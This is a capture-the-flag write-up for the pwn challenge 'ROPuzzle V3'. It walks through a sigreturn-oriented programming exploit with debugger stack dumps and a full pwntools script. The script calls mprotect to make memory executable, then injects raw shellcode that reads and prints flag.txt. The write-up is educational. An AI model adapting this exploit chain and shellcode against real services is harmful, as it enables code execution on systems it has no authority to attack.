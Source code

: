 # ROPuzzle V3
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-400-orange)

## Description
Remember when I said I found the smallest binary? I was wrong! THIS is the smallest binary!

`nc ctf.joshl.ca 5000`

[ROPuzzleV3.zip](https://ctf.mcpt.ca/media/problem/1nAwhK1XyccZscKTOtQuIk1xvXgq3qUMfhJ-fG9fnFk/ROPuzzleV3.zip)

## Solution
The binary is very small. We have a buffer overflow, but no gadgets and no libc to jump to.

Actually, we do have a `syscall` gadget available. This can let us do a `sigreturn` syscall, giving us complete code execution - as long as we can set `rax` to 15, the syscall number for sigreturn. However, this doesn't seem possible, since there are no rax gadgets. Luckily, it is, because rax is not cleared after syscalls. And the read syscall returns the number of bytes read, in rax. So if we only get the program to read in 15 bytes, then rax will be set up properly.

However, 15 bytes is too little to do anything with. We can overcome this by reading in our full input, returning back to the start of the get_input function, reading 15 bytes, returning to the syscall gadget, giving us a sigreturn. Success!!

This is wonderful and all, but we still need to be able to either get a shell or print the flag after the sigreturn. Trying to get a shell won't work in Alpine linux (the distro used in the challenge), so our only option is to print the flag, which will require us to enter shellcode, which means we need a segment in the program that allows read, write, and execute.

Then, our exploit is:

1. get_input 1: we overwrite the return address to the start of get_input so that we can set up the rax register later, and also write the sigreturn frame (used later) onto the stack. The sigreturn frame will setup a `mprotect(0x400000, 0x1000, 7)` call (0x400000 is a safe location), and also shift the stack to somewhere in the 0x400000 range.

<details>
<summary>What the stack looks like after this step</summary>

```
[-------------------------------------code-------------------------------------]
   0x40101b <get_input+17>:     mov    edx,0x1000
   0x401020 <get_input+22>:     syscall 
   0x401022 <get_input+24>:     add    rsp,0x8
=> 0x401026 <get_input+28>:     ret    
   0x401027 <exit>:     mov    eax,0x3c
   0x40102c <exit+5>:   mov    edi,0x0
   0x401031 <exit+10>:  syscall 
   0x401033 <exit+12>:  call   0x401027 <exit>
[------------------------------------stack-------------------------------------]
0000| 0x7fff1498c638 --> 0x40100a (<get_input>: sub    rsp,0x8)     <== overwritten return address
0008| 0x7fff1498c640 --> 0x0                                        <== 0 (empty on purpose, we overwrite this step 2)
0016| 0x7fff1498c648 --> 0x0                                        <=\
0024| 0x7fff1498c650 --> 0x0                                        <=| 
0032| 0x7fff1498c658 --> 0x0                                        <== the sigreturn
0040| 0x7fff1498c660 --> 0x0                                        <== frame
0048| 0x7fff1498c668 --> 0x0                                        <=|
0056| 0x7fff1498c670 --> 0x0                                        <=/
[------------------------------------------------------------------------------]
```
</details>

2. get_input 2: Write 15 bytes, so that rax is set to 15 (syscall number for sigreturn). We should also overwrite the return address again so that it points to the `syscall` instruction in get_input.

<details>
<summary>What the stack looks like after this step</summary>

```
[-------------------------------------code-------------------------------------]
   0x40101b <get_input+17>:     mov    edx,0x1000
   0x401020 <get_input+22>:     syscall 
   0x401022 <get_input+24>:     add    rsp,0x8
=> 0x401026 <get_input+28>:     ret    
   0x401027 <exit>:     mov    eax,0x3c
   0x40102c <exit+5>:   mov    edi,0x0
   0x401031 <exit+10>:  syscall 
   0x401033 <exit+12>:  call   0x401027 <exit>
[------------------------------------stack-------------------------------------]
0000| 0x7fff1498c640 --> 0x401020 (<get_input+22>:      syscall)    <== overwritten return address
0008| 0x7fff1498c648 --> 0x0                                        <=\
0016| 0x7fff1498c650 --> 0x0                                        <=|
0024| 0x7fff1498c658 --> 0x0                                        <=|
0032| 0x7fff1498c660 --> 0x0                                        <== sigreturn frame
0040| 0x7fff1498c668 --> 0x0                                        <=|
0048| 0x7fff1498c670 --> 0x0                                        <=|
0056| 0x7fff1498c678 --> 0x0                                        <=/
[------------------------------------------------------------------------------]
```
</details>

3. Program returns to syscall and does the sigreturn. The registers are now set up for the mprotect syscall.

<details>
<summary>What the stack looks like after this step</summary>

```
[----------------------------------registers-----------------------------------]
RAX: 0xa ('\n')
RBX: 0x0 
RCX: 0x0 
RDX: 0x7 
RSI: 0x1000 
RDI: 0x400000 --> 0x10102464c457f 
RBP: 0x0 
RSP: 0x400010 --> 0x1003e0002 
RIP: 0x401020 (<get_input+22>:  syscall)
R8 : 0x0 
R9 : 0x0 
R10: 0x0 
R11: 0x0 
R12: 0x0 
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401013 <get_input+9>:      mov    edi,0x0
   0x401018 <get_input+14>:     mov    rsi,rsp
   0x40101b <get_input+17>:     mov    edx,0x1000
=> 0x401020 <get_input+22>:     syscall 
   0x401022 <get_input+24>:     add    rsp,0x8
   0x401026 <get_input+28>:     ret    
   0x401027 <exit>:     mov    eax,0x3c
   0x40102c <exit+5>:   mov    edi,0x0
Guessed arguments:
arg[0]: 0x400000 --> 0x10102464c457f 
arg[1]: 0x1000 
arg[2]: 0x7 
[------------------------------------stack-------------------------------------]
0000| 0x400010 --> 0x1003e0002 
0008| 0x400018 --> 0x401000 (<_start>:  call   0x40100a <get_input>)
0016| 0x400020 --> 0x40 ('@')
0024| 0x400028 --> 0x1150 
0032| 0x400030 --> 0x38004000000000 ('')
0040| 0x400038 --> 0x4000500400002 
0048| 0x400040 --> 0x400000001 
0056| 0x400048 --> 0x0 
[------------------------------------------------------------------------------]
```
</details>

4. The mprotect is called, creating a section of `rwx` memory. Then, we return to the main address conveniently in our safe space.

<details>
<summary>What the stack looks like after this step</summary>

```
[-------------------------------------code-------------------------------------]
   0x40101b <get_input+17>:     mov    edx,0x1000
   0x401020 <get_input+22>:     syscall 
   0x401022 <get_input+24>:     add    rsp,0x8
=> 0x401026 <get_input+28>:     ret    
   0x401027 <exit>:     mov    eax,0x3c
   0x40102c <exit+5>:   mov    edi,0x0
   0x401031 <exit+10>:  syscall 
   0x401033 <exit+12>:  call   0x401027 <exit>
[------------------------------------stack-------------------------------------]
0000| 0x400018 --> 0x401000 (<_start>:  call   0x40100a <get_input>)
0008| 0x400020 --> 0x40 ('@')
0016| 0x400028 --> 0x1150 
0024| 0x400030 --> 0x38004000000000 ('')
0032| 0x400038 --> 0x4000500400002 
0040| 0x400040 --> 0x400000001 
0048| 0x400048 --> 0x0 
0056| 0x400050 --> 0x400000 --> 0x10102464c457f 
[------------------------------------------------------------------------------]
```
</details>
    
5. Read input into our new stack at 0x400000 and return to our shellcode in there

<details>
<summary>What the stack looks like after this step</summary>

```
[-------------------------------------code-------------------------------------]
   0x401018 <get_input+14>:     mov    rsi,rsp
   0x40101b <get_input+17>:     mov    edx,0x1000
   0x401020 <get_input+22>:     syscall 
=> 0x401022 <get_input+24>:     add    rsp,0x8
   0x401026 <get_input+28>:     ret    
   0x401027 <exit>:     mov    eax,0x3c
   0x40102c <exit+5>:   mov    edi,0x0
   0x401031 <exit+10>:  syscall
[------------------------------------stack-------------------------------------]
0000| 0x400010 ("flag.txt ")                                <== the string "flag.txt" (not null terminated, is a problem)
0008| 0x400018 --> 0x400020 --> 0x400018250489c031          <== our fake return address, return to 0x400020
0016| 0x400020 --> 0x400018250489c031                       <== shellcode, starting here, that prints the flag
0024| 0x400028 --> 0x10bf00000002b800 
0032| 0x400030 --> 0xfd231f631004000 
0040| 0x400038 --> 0x500bec031c78905 
0048| 0x400040 --> 0xf00000064ba0040 
0056| 0x400048 --> 0x1bf00000001b805 
[------------------------------------------------------------------------------]
```
</details>

```py
from pwn import *

context.arch = 'amd64'

if args.LOCAL:
    p = process("./main")
else:
    p = remote("ctf.joshl.ca", 5000)

# Important addresses
input_addr = 0x000000000040100a
syscall = 0x401020

# Payload 1: 8 bytes garbage + return address + garbage + sigreturn frame
pay = b'A'*8 + p64(input_addr) + p64(0)
frame = SigreturnFrame() # mprotect(0x400000, 0x1000, 7)
frame.rax = 10
frame.rdi = 0x400000
frame.rsi = 0x1000
frame.rdx = 7
frame.rsp = 0x400010        # our new stack exists here, because this address
                            # contains the address of main, which we'll need to
                            # return to
frame.rip = syscall

pay += bytes(frame)

p.send(pay)
with open('in', 'wb') as f:
    f.write(pay)

pause()

# At this point, the payload 1 is read, the program jumped back to the start of read_input, and our full payload is on the stack

# Payload 2: 15 bytes, make sure we overwrite the return pointer back to syscall
pay = b'A'*8 + p64(syscall)
pay = pay[:15]

with open('in', 'ab') as f:
    f.write(pay)
p.send(pay)
pause()

# At this point, rax = 15, we return to the syscall, which performs the sigreturn syscall, returning back to the
# sigreturn syscall (controlled by frame.rip), making the mprotect syscall, then returning into the address pointed
# to by frame.rsp (start of main), which calls read_input again - but now the stack is at our special location.

# Payload 3:
# 0x400010: "flag.txt"
# 0x400018: overwriting the return address to go to 0x400020
# 0x400020: our shellcode
# The first and second instructions are important because we need to make sure the first byte after "flag.txt"
# is a null byte, but it contains 0x400020 right now. To fix this, we can just move 0 to 0x400018.
"""
   0:   31 c0                   xor    eax, eax
   2:   89 04 25 18 00 40 00    mov    dword[0x400018], eax
   9:   b8 02 00 00 00          mov    eax, 0x2
   e:   bf 10 00 40 00          mov    edi, 0x400010
  13:   31 f6                   xor    esi, esi
  15:   31 d2                   xor    edx, edx
  17:   0f 05                   syscall                 ; int fd = open("flag.txt", "r", "r")
  19:   89 c7                   mov    edi, eax
  1b:   31 c0                   xor    eax, eax
  1d:   be 00 05 40 00          mov    esi, 0x400500    ; known safe address
  22:   ba 64 00 00 00          mov    edx, 0x64
  27:   0f 05                   syscall                 ; read(fd, 0x400500, 0x64)
  29:   b8 01 00 00 00          mov    eax, 0x1
  2e:   bf 01 00 00 00          mov    edi, 0x1
  33:   be 00 05 40 00          mov    esi, 0x400500
  38:   ba 64 00 00 00          mov    edx, 0x64
  3d:   0f 05                   syscall                 ; write(stdout, 0x400500, 0x64)
"""
pay = b'flag.txt' + p64(0x400020) + b'\x31\xc0\x89\x04\x25\x18\x00\x40\x00\xb8\x02\x00\x00\x00\xbf\x10\x00\x40\x00\x31\xf6\x31\xd2\x0f\x05\x89\xc7\x31\xc0\xbe\x00\x05\x40\x00\xba\x64\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\xbe\x00\x05\x40\x00\xba\x64\x00\x00\x00\x0f\x05'

with open('in', 'ab') as f:
    f.write(pay)
p.send(pay)
pause()
p.interactive()
```

Flag: `CTF{Best_use_of_srop_i_have_seen_so_far!}`
